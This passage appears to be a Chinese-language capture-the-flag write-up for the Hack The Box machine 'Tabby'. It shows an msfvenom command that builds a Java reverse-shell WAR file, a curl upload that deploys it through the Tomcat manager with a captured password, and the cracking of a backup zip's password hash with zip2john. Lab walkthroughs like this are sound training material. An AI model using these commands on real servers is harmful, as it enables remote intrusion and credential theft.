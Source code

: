 制作反弹shell的war包

```Bash
┌──(root㉿yOutiao)-[/home/machines/linux/tabby]
└─# msfvenom -p java/shell_reverse_tcp lhost=10.10.16.11 lport=443 -f war -o rev.10.10.16.11-443.war
Payload size: 13316 bytes
Final size of war file: 13316 bytes
Saved as: rev.10.10.16.11-443.war
```

命令行手动上传并指定路径

```Bash
└─# curl -u 'tomcat:$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/deploy?path=/y0utiao --upload-file rev.10.10.16.11-443.war
OK - Deployed application at context path [/y0utiao]

#访问后拿到shell

┌──(root㉿yOutiao)-[/home/machines/linux/tabby]
└─# curl http://10.10.10.194:8080/y0utiao

```



## Privilege Escalation

### tomcat →  ash

web 目录下有一个ash所属的zip文件

```Bash
tomcat@tabby:/var/www/html/files$ ls -lha
total 36K
drwxr-xr-x 4 ash  ash  4.0K Aug 19  2021 .
drwxr-xr-x 4 root root 4.0K Aug 19  2021 ..
-rw-r--r-- 1 ash  ash  8.6K Jun 16  2020 16162020_backup.zip
drwxr-xr-x 2 root root 4.0K Aug 19  2021 archive
drwxr-xr-x 2 root root 4.0K Aug 19  2021 revoked_certs
-rw-r--r-- 1 root root 6.4K Jun 16  2020 statement

```

拿到kali上解压需要密码，用zip2john试下拿到密码成功解压

```Bash
┌──(root㉿yOutiao)-[/home/machines/linux/tabby]
└─# zip2john ash.zip 2>/dev/null | tee ash.zip.hash
ash.zip:$pkzip$5*1*1*0*8*24*7db5*dd84cfff4c26e855919708e34b3a32adc4d5c1a0f2a24b1e59be93f3641b254fde4da84c*1*0*8*24*6a8b*32010e3d24c744ea56561bbf91c0d4e22f9a300fcf01562f6fcf5c986924e5a6f6138334*1*0*0*24*5d46*ccf7b799809a3d3c12abb83063af3c6dd538521379c8d744cd195945926884341a9c4f74*1*0*8*24*5935*f422c178c96c8537b1297ae19ab6b91f497252d0a4efe86b3264ee48b099ed6dd54811ff*2*0*72*7b*5c67f19e*1b1f*4f*8*72*5a7a*ca5fafc4738500a9b5a41c17d7ee193634e3f8e483b6795e898581d0fe5198d16fe5332ea7d4a299e95ebfff6b9f955427563773b68eaee312d2bb841eecd6b9cc70a7597226c7a8724b0fcd43e4d0183f0ad47c14bf0268c1113ff57e11fc2e74d72a8d30f3590adc3393dddac6dcb11bfd*$/pkzip$::ash.zip:var/www/html/news.php, var/www/html/favicon.ico, var/www/html/Readme.txt, var/www/html/logo.png, var/www/html/index.php:ash.zip

┌──(root㉿yOutiao)-[/home/machines/linux/tabby]
└─# ll
total 52
-rw-r--r-- 1 root root  8716 Feb 27 16:39 ash.zip
-rw-r--r-- 1 root root   779 Feb 27 16:43 ash.zip.hash
drwxr-xr-x 3 root root  4096 Feb 27 14:37 CVE-2020-9484
-rw-r--r-- 1 root root 13316 Feb 27 15:53 rev.10.10.16.11-443.war
-rw-r--r-- 1 root root   579 Feb 27 15:23 shell.jsp
drwxr-xr-x 3 root root  4096 Feb 27 16:39 var
```